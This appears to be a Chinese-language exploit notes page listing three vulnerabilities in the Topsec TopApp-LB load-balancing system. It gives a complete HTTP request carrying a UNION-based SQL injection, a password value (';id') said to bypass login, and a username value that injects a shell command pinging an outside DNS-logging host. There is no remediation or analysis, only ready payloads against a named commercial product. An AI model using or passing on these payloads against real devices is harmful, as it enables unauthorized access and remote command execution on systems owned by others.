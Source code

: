 ### 天融信 TopApp-LB 负载均衡系统SQL注入漏洞

#### NO.1

&emsp;&emsp;利用POC：

```
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: localhost
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded


t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22-- +&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。
```

![](/img/HW-Vuln/HW3.png)

#### NO.2

&emsp;&emsp;[天融信负载均衡TopApp-LB系统无需密码直接登陆](https://www.uedbox.com/post/21626/)

&emsp;&emsp;用户名随意，密码：`;id`

#### NO.3

&emsp;&emsp;[天融信TopApp-LB负载均衡命令执行漏洞](https://www.uedbox.com/post/22193/)

&emsp;&emsp;用户名: `; ping 9928e5.dnslog.info; echo`，密码任意

![](/img/HW-Vuln/HW4.png)
